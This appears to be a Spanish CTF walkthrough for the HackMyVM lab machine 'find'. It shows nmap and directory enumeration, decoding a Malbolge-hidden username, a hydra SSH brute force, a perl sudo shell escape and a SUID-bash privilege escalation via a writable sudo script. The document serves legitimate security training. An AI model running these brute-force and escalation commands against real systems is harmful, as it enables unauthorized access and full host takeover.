#Maquina find Hackmyvm
```
ip: 10.10.10.93
ports : 22 80
```
##Enumeracion de puertos y Servicios

~~~
# Nmap 7.92SVN scan initiated Wed Jun 15 16:02:59 2022 as: nmap -p- -sCV -T4 -v -n -oN targeted -oX taargetedXML 10.10.10.93
Nmap scan report for 10.10.10.93
Host is up (0.0013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 6ef79004840dcd1e5d2edab151d9bf57 (RSA)
|   256 395a6638f7649a94ddbcb6fbf8e73f87 (ECDSA)
|_  256 8c26e72662771640fbb5cfa61ce0f69d (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:11:31:1A (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 15 16:03:19 2022 -- 1 IP address (1 host up) scanned in 20.00 secon
~~~

#Enumeracion de archivos y carpetas


[16:24:44] 200 -   10KB - /index.html
[16:24:47] 403 -  276B  - /icons/      
[16:25:10] 200 -   34KB - /cat.jpg              
[16:25:16] 200 -  626B  - /manual/           
[16:25:16] 301 -  311B  - /manual  ->  http://10.10.10.93/manual/
[16:26:06] 200 -   13B  - /robots.txt  


En robots.txt nos pone que busquemos al usuario. --> find user :)

tenemos una imagen que contiene un codigo raro

```bash
>C<;_"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONMLKJ`_dcba`_^]\Uy<XW
VOsrRKPONGk.-,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONML
KJIHGFEDZY^W\[ZYXWPOsSRQPON0Fj-IHAeR
```

se puede compilar en esta pagina , para dar con ella tela
~~~
http://www.malbolge.doleczek.pl/
~~~

conseguimos un nombre de usuario y con hydra conseguimos el password



❯ hydra -l xxxxxxx -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.93 -f -t 64
Hydra v9.4-dev (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-15 16:22:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344398 login tries (l:1/p:14344398), ~224132 tries per task
[DATA] attacking ssh://10.10.10.93:22/
[22][ssh] host: 10.10.10.93   login: xxxxxxx   password: xxxxxxxx
[STATUS] attack finished for 10.10.10.93 (valid pair found)
1 of 1 target successfully completed, 1 valid password found


##User Pivoting

Del usuario missyred --> kings

Con sudo -l podemos ejecutar perl en gtfobins encontramos la manera de ejecutar una bash.


missyred@find:~$ sudo -l
[sudo] password for missyred: 
Matching Defaults entries for missyred on find:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User missyred may run the following commands on find:
    (kings) /usr/bin/perl
missyred@find:~$ sudo -u kings  perl -e 'exec "/bin/bash";'

###Escalada de Privilegios

accedemos como el user kings y encotramos la primera flag

con sudo -l podemos ejecutar un script pero no esta.

kings@find:~$ sudo -l
Matching Defaults entries for kings on find:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User kings may run the following commands on find:
    (ALL) NOPASSWD: /opt/boom/boom.sh


Nos vamos a la carpeta opt y veremos que tenemos permisos de escritura creamos la carpeta boom y el archivo boom.sh

```bash
#!/bin/bash

chmod u+s /bin/bash
```

Le damos permisos chmod +x boom.sh y lo ejecutamos --> sudo -u root /opt/boom/boom.sh

Con bash -p accedemos como root.

kings@find:~$ bash -p
bash-5.0# id;whoami;hostname
uid=1002(kings) gid=1006(kings) euid=0(root) groups=1006(kings),1005(kingg)
root
find
bash-5.0#
